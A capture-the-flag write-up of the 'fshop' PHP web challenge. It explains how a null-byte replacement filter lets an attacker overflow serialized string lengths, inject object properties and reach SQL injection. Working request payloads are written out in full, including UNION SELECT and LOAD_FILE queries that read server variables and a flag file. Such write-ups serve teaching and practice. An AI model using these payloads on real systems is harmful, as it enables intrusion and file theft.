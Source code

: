 # fshop writeup

16 solves

I believe that this challenge would've had way more less solves without the unintended solution.

Before I start, sorry for not having the pictures of the actual application. The server of the challenge is currently not active.

# Flow of the application

The challenge was written in php and the following 2 files were the ones needed to understand to solve the challenge
```
buy.php
items.php
```

buy.php
```
$stmt=$conn->prepare("SELECT * FROM products where id=?");
$stmt->bind_param("s",$id);
$id=$product_id;
$stmt->execute();
if ($stmt->get_result()->num_rows==0){
	die("Product does not exist");
}
$productOBJ=new Order($product_id,$quantity,$size);

$serialized_product=serialize($productOBJ);

$filtered_serialized_product=str_replace(chr(0).'*'.chr(0), '\0\0\0', $serialized_product);

$sql="INSERT INTO user_items (user_id,product_object) VALUES (?, ?)";
$stmt = $conn->prepare($sql);
$stmt->bind_param("is",$id, $object);
$id=(int)$user_id;
$object=$filtered_serialized_product;
$stmt->execute();
```

buy.php gets the $pdocut_id, $quantity, and $size (This is user-controllable) and serializes it.

When php serializes private properties, it prepends * surrounded with null bytes in the name. 

mysql cannot process null bytes so the code replaces the * surrounded with the null bytes with \0\0\0. Then it just simply executes the sql query and puts the serialized string into a table named user_items.

itmes.php
```
    $sql="SELECT * from user_items where user_id=?";
    $stmt=$conn->prepare($sql);
    $stmt->bind_param("i",$id);
    $id=(int)$_SESSION['id'];
    $stmt->execute();
    echo '<div class="row" id="product-list">';
    if ($result = $stmt->get_result()) {
        while ($row = $result -> fetch_row()) {
            $serializedObject=$row[2];
            $serializedObject=str_replace('\0\0\0',chr(0).'*'.chr(0), $serializedObject);
            $order=unserialize($serializedObject);
            $prod_id=$order->_product_id;
            $sql2="select * from products where id='$prod_id'";
            if ($result2 = $conn->query($sql2)) {
            
                while ($row2 = $result2 -> fetch_row()) {
                    
                echo "  <div class=\"col-lg-3 col-sm-6 mix all dresses bags\">
                            <div class=\"single-product-item\">
                                <figure>
                                    <a href=\"product-page.php?id=".$row2[0]."\"><img src=".$row2[6].' alt=""></a>
                                    <div class="p-status">For CTF ladies</div>
                                </figure>
                                <div class="product-text">
                                    <h6>'.$row2[1].'</h6>
                                    <p>'.$row2[2].'</p>
                                </div>
                            </div>
                        </div>';

                }
                $result2 -> free_result();
            }
        }
        $result -> free_result();
    }
```

Items.php showed all of the items that you have chose in buy.php.

It first get's all of the rows from user_items with your user_id.
It then gets the serialized object that was made from buy.php and replaces \0\0\0 with * surrounded with null bytes and unserialises that then print them out.

# vulnerability

The problem with this program is that the user also has the ability to inject \0.

Below is an example of a serialized object.
```
{s:12:"*_quantity";s:1:"1";s:8:"*_size";s:1:"S";s:11:"_product_id";s:1:"1";}
```

As I said, since mysql can't process null bytes, the application will change it to

```
{s:12:"\0\0\0_quantity";s:1:"1";s:8:"\0\0\0_size";s:1:"S";s:11:"_product_id";s:1:"1";}
```

and then change it back to the original serialized object by replacing \0\0\0 with chr(0)."*".chr(0) in items.php.

But what if you give \0 values like the example below?

```
?id=3&size=s&quantity=%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0

results in 

serialized_product : O:5:"Order":3:{s:12:"*_quantity";s:30:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"*_size";s:1:"s";s:11:"_product_id";s:1:"3";}

and then replacing * with \0\0\0 it will change to 

filtered_serialized_product : O:5:"Order":3:{s:12:"\0\0\0_quantity";s:30:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"\0\0\0_size";s:1:"s";s:11:"_product_id";s:1:"3";}
then go into the db
```

and then when it converts \0\0\0 back to \* in items.php it will change to 

```
serializedObject : O:5:"Order":3:{s:12:"*_quantity";s:30:"*****";s:8:"*_size";s:1:"s";s:11:"_product_id";s:1:"3";}
```

Pay attention to the string length where it says s:30. It gave the value of s:30 because it counts all characters in \0\0\0\0\0\0\0\0\0\0\0\0\0\0\0 but when it converts it back to chr(0)."\*".chr(0) it is still in s:30 but the actual character length is 15(you need to also count the null bytes so 10 null bytes + 5 "\*" is 15). This means that we have 15 more characters that we can control. So when the above serealized object gets unserialized, it will occur an error.

# Exploit

So the attack flow is
1. overflow _quantity and overwrite _size
2. create and put the serialized object that contains _size and _product_id(containing the sql injection) into _size

Let's say we want to inject 'UNION SELECT null,null,null,null,null,null,null-- -

the payload will be the following
```
id=3&size=";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:156:"UNION SELECT null,null,null,null,null,null,null-- -&quantity=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
```

when this payload gets serialized and when the \0s get replaced with * it will look like below
```
O:5:"Order":3:{s:12:"*_quantity";s:48:"********";s:8:"*_size";s:109:"";s:8:"*_size";s:5:"12345";s:11:"_product_id";s:79:"'UNION SELECT null,null,null,null,null,null,null-- -";s:11:"_product_id";s:1:"3";}
```
so at _quantity, the character length is stated 48 so it will cover 
```
********";s:8:"*_size";s:109:"
```
as string. So when it gets unserialized, it unserializes the part that was in the payload which is size=12345 and _product_id='UNION SELECT null,null,null,null,null,null,null-- -

Perfect! so now we can control the _product_id and achieve sql injection in /items.php

Unfortunately, I do not remember the exact query that I have used so below is the author's sql injection query.

```
id=3&size=";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:156:"50' union select 1,2,VARIABLE_VALUE,4,5,6,7 from performance_schema.session_variables where VARIABLE_NAME="secure_file_priv";-- -&quantity=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0


/var/lib/Fword/mysql-files/You_got_it/


id=3&size=";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:120:"50' union select 1,2,LOAD_FILE("/var/lib/Fword/mysql-files/You_got_it/flag.txt"),4,5,6,7;-- -&quantity=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0

FwordCTF{Uns3ri4lize_ov3rfl0w_fi7s_be7t3r_w1th_s0m3_5QL_1nj3c7ion}
```
The above payload uses the same idea that I explained.

Thanks for reading



# Unintended Solution

There was a bug in /items.php where if you went to /items.php before logging in, it will give you other user's output which also printed out the flag. I right away reported it to admin and it got fixed after some time.

# Conclsion
This was a fun challenge about serializing. Sorry for the bad writeup, I'm currently on some assignemtns for school so I had to write it quick and short.

Once again, thanks for reading.